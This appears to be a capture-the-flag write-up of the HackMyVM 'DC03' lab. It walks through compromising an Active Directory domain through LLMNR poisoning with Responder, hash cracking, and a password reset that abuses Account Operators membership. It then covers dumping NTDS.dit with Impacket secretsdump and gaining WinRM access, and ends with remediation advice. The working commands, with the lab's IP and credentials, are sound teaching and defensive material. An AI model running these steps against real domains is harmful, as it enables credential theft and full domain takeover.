+++
date = '2026-06-11T18:43:53+03:00'
draft = false
title = 'DC03 — HackMyVM'
tags = ["Active Directory", "Privilege Escalation", "LLMNR Poisoning", "Account Operators", "Impacket", "Responder", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

This writeup details the attack path taken to compromise the SOUPEDECODE.LOCAL Active Directory domain. The attack chain consisted of LLMNR poisoning to capture initial credentials, LDAP enumeration to discover a misconfigured high-privileged group membership (Account Operators), and an orchestrated password reset to ultimately dump the domain controller's NTDS.dit file and gain Admin access via WinRM.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target IP (192.168.56.106) to identify running services and potential entry points.

```
nmap -sV -sC -p- 192.168.56.106
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 128 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2026-06-11 18:43:53Z)
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 128
464/tcp   open  kpasswd5?     syn-ack ttl 128
593/tcp   open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL, Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 128 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
```

**Key Findings:**

- Standard Active Directory ports were open, including DNS (53), Kerberos (88), RPC (135), SMB (139/445), and LDAP (389/3268).
- The domain was identified as SOUPEDECODE.LOCAL.
- A check for anonymous/null session access over SMB yielded no results.



Initial user enumeration was attempted using Kerbrute, setting the stage for further attacks.



## Step 2: Initial Access

With SMB signing enabled, an SMB relay attack was not viable. The strategy pivoted to capturing authentication hashes over the local network using LLMNR/NBT-NS poisoning.

### Executing Responder

Responder was started on the local interface to listen for and poison multicast queries.

```
responder -I vboxnet0 -dwv
```



### Capturing and Cracking the Hash

The poisoning attack successfully intercepted an authentication request, yielding an NTLMv2 hash for the user `xkate578`. Using a password cracking tool (such as Hashcat or John the Ripper), the captured hash was successfully cracked to reveal the plaintext password.



## Step 3: Internal Domain Enumeration

Armed with valid credentials for `xkate578`, the next phase focused on mapping out internal access and identifying paths for privilege escalation.

### SMB Share Enumeration

Initial checks of the SMB shares showed accessible directories.





Slinkey was run against the shares in an attempt to harvest additional hashes or sensitive files, but this did not yield actionable results.



### LDAP Enumeration

To get a broader view of the domain's structure and permissions, `ldapdomaindump` was utilized.

```
ldapdomaindump -n 192.168.56.106 -u 'SOUPEDECODE.LOCAL\xkate578' -p '<Cracked_Password>' -o ldap_dump 192.168.56.106
```



### Identifying the Vulnerability

Reviewing the output from the LDAP dump revealed a critical misconfiguration: the user `xkate578` was a member of the **Account Operators** group.



Further enumeration of domain groups via `rpcclient` confirmed the presence of typical high-value targets, including Domain Admins and a custom Operators group.

```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Operators] rid:[0x875]
```





Members of the **Account Operators** group have the inherent right to modify account attributes and reset passwords for most non-protected users in the domain.

## Step 4: Privilege Escalation

The goal was to leverage the Account Operators privileges of `xkate578` to force a password reset on a higher-privileged user. The target chosen was `fbeth103`.

### Resetting the Target Password

Initial attempts to change the password via `rpcclient` and `bloodyad` proved difficult. Impacket's `changepasswd.py` was used to cleanly execute the password reset over RPC.

```
impacket-changepasswd 'SOUPEDECODE.LOCAL/fbeth103@192.168.56.106' -altuser 'xkate578' -altpass '<xkate578_Password>' -newpass 'Password123!' -no-pass -reset
```



### Verifying Access

The newly set credentials (`fbeth103`:`Password123!`) were tested and confirmed to be valid, granting access to a highly privileged account within the environment.



## Step 5: Domain Compromise

With a fully compromised administrative account, the final step was to compromise the entire domain by extracting all Active Directory hashes.

### Dumping NTDS.dit

Impacket's `secretsdump.py` was executed to remotely dump the NTDS.dit file and extract all domain password hashes (including the krbtgt account and Domain Admins).

```
impacket-secretsdump 'SOUPEDECODE.LOCAL'/'fbeth103':'Password123!'@192.168.56.106
```

### Remote Administration

Using the compromised high-privilege credentials, an administrative WinRM session was successfully established against the target, achieving total control over the domain controller.



## Conclusion

This lab demonstrated a full domain compromise starting from an LLMNR poisoning attack to capture a weak user password. The critical escalation path relied on a misconfigured Account Operators group membership. This allowed a standard user to reset an administrative password, dump the NTDS.dit database, and achieve complete Active Directory control.

To secure the environment, the following remediations are recommended:

- **Disable LLMNR and NBT-NS:** Use Group Policy to enforce DNS-only name resolution, preventing broadcast poisoning.
- **Enforce Strong Passwords:** Implement strict complexity and length requirements to thwart offline hash cracking.
- **Audit Privileged Groups:** Restrict powerful groups like Account Operators and ensure they are never assigned to standard user accounts.
- **Implement Tiered Administration:** Strictly separate standard and administrative accounts to limit lateral movement and privilege escalation.
